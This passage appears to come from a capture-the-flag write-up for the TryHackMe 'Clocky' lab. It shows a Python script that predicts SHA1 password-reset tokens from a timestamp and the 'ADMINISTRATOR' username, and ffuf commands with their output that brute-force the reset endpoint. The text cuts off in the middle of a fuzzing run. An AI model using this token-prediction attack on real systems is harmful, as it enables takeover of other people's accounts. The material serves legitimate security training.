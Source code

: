 Let's write simple python script to generate tokens:
```python
import requests
import hashlib

for i in range(0,100):

	i = str(i).rjust(2, "0")
	value = '2024-07-10 20:39:18.' + i
	lnk = value + " . " + 'ADMINISTRATOR'
	lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
	print(lnk)
```

Save this tokens into file to fuzz it afterwards.

Now, we have to find the right parameter for the `/password_reset` endpoint because in the source code suggested `TEMPORARY` parameter is giving us the error `Invalid parameter`

```console
$ ffuf -u http://clocky.thm:8080/password_reset?FUZZ=test -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 26

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://clocky.thm:8080/password_reset?FUZZ=test
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 26
________________________________________________

[Status: 200, Size: 22, Words: 2, Lines: 1, Duration: 126ms]
    * FUZZ: token

:: Progress: [6453/6453] :: Job [1/1] :: 210 req/sec :: Duration: [0:00:35] :: Errors: 0 ::

```

Now, let's fuzz our tokens to find the right one.

```console
$ ffuf -u http://clocky.thm:8080/password_reset?token=FUZZ -w times.txt -fs 22

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
```